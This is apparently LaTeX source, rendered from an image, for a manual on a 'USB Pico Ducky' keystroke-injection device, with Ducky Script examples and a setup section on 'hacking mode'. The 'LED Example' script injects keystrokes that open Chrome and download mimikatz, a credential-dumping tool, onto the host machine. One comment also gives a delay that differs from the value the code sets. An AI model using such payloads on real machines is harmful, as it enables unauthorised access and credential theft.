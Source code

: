 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{figure}[htb]
\begin{small}
\begin{lstlisting}[language=Ducky]
REM set default delay to 250, this will cause all commands being executed once every 250ms
DEFAULTDELAY 100
WINDOWS R
STRING notepad.exe
ENTER
STRING Every command is being executed after a delay of 250ms
\end{lstlisting}
\end{small}
\caption{DEFAULTDELAY Example}
\end{figure}

\subsubsection{LED}

\begin{figure}[htb]
\begin{small}
\begin{lstlisting}[language=Ducky]
REM wait 500ms, then update LED status once successfully installed mimikatz virus from the web
DELAY 500
WINDOWS S
STRING chrome
ENTER
STRING https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
ENTER
DELAY 300

REM once the virus downloads, turn on the LED of USB Pico Ducky
LED
\end{lstlisting}
\end{small}
\caption{LED Example}
\end{figure}

\newpage

\section{Setup}

\subsection{Reset}

\subsubsection{When to Reset USB}

Resetting the USB turns hacking mode off. More information can be found in section \ref{hack_mode_off}. You can also reset back to the USB Pico Ducky (hacking mode) as specified in more detail in section \ref{hack_mode_on}.
\end{document}
